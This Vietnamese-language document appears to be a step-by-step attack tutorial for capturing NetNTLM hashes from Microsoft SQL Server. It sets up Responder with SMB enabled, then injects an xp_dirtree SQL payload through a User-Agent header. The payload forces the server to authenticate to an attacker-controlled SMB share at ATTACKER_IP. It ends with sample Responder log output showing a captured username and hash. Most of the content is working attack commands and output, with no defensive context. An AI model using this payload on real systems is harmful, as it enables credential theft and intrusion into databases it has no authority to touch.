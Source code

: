 ### **1. Thiết lập môi trường**

#### **Tải và cài đặt Responder**
Responder là công cụ phổ biến để bắt NetNTLM hash.
```bash
git clone https://github.com/lgandx/Responder
cd Responder
sudo python3 Responder.py -I eth0
```

- Đảm bảo **SMB server** được bật trong `Responder.conf`:
  - Mở tệp `Responder.conf`.
  - Đổi dòng `SMB = Off` thành `SMB = On`.

#### **Khởi chạy Responder**
```bash
sudo python3 Responder.py -I eth0
```
- Responder sẽ lắng nghe trên giao diện mạng **eth0** để chờ yêu cầu SMB.

---

### **2. Tạo SQL Payload**

#### **Payload để kích hoạt truy cập SMB:**
```sql
';EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;--
```

- **Mục tiêu:**
  - Buộc SQL Server truy cập chia sẻ SMB `\\<ATTACKER_IP>\myshare`.
  - NetNTLM hash sẽ được gửi đến **ATTACKER_IP**.

#### **Thực thi Payload:**
Gửi payload qua lỗ hổng SQL Injection:
```http
User-Agent: ';EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;--
```

---

### **3. Thu thập NetNTLM Hash**

#### **Quan sát Responder Logs:**
Sau khi payload chạy thành công, Responder sẽ ghi lại hash trong log:
```plaintext
[SMB] NTLMv2-SSP Client   : 192.168.43.156
[SMB] NTLMv2-SSP Username : SQL01\jason
[SMB] NTLMv2-SSP Hash     : jason::SQL01:bd7f162c24a39a0f:94DF80C5ABBA<SNIP>000000000
```

- **Username:** `SQL01\jason`
- **Hash:** `bd7f162c24a39a0f:94DF80C5ABBA<SNIP>000000000`

---